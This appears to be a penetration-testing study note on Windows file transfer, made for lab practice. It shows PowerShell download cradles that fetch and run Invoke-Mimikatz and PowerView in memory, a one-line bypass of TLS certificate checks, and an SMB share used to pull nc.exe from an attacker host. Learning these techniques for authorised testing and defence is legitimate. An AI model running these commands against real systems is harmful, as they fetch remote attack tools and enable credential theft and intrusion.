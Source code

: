 ### <mark class="hltr-orange">PowerShell DownloadString - Fileless Method</mark>

fileless attacks work by using some operating system functions to download the payload and execute it directly (<mark class="hltr-red">In memory</mark>)

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### <mark class="hltr-orange">Common errors with powershell</mark>
#### <mark class="hltr-grey">Internet Explorer</mark>
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
![[Pasted image 20240804173247.png]]
This can be bypassed using the parameter `-UseBasicParsing`.

```powershell-session
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

#### <mark class="hltr-grey">SSL/TLS</mark>
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

```powershell-session
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### <mark class="hltr-grey">Powershell Download cradles</mark>

Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).

## <mark class="hltr-cyan">SMB Downloads</mark>
### <mark class="hltr-orange">Unauthenticated</mark>

First we have to create an smb server on the linux host

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

then we can access the share 

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe
```

### <mark class="hltr-orange">Authenticated</mark>
